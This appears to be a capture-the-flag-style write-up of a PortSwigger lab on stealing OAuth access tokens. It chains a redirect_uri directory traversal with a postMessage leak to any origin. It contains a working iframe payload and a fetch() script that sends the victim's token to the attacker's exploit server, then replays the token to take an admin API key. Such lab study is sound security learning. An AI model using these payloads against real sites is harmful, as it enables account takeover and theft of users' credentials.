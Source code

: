 # Stealing OAuth access tokens via a proxy page

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. Study the `OAuth` flow while proxying traffic through Burp. Using the same method as in the previous lab, identify that the `redirect_uri` is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.
2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. Look closer at the `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select **Copy URL**. Go to the exploit server and create an iframe in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:

```text
<iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```

4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:

```text
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

5. To check the exploit is working, store it and then click **View exploit**. Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.
7. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
8. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

## Exploitability

An attacker will need to log in; and then identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account; use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server, and they always have an active session with the `OAuth` service. 
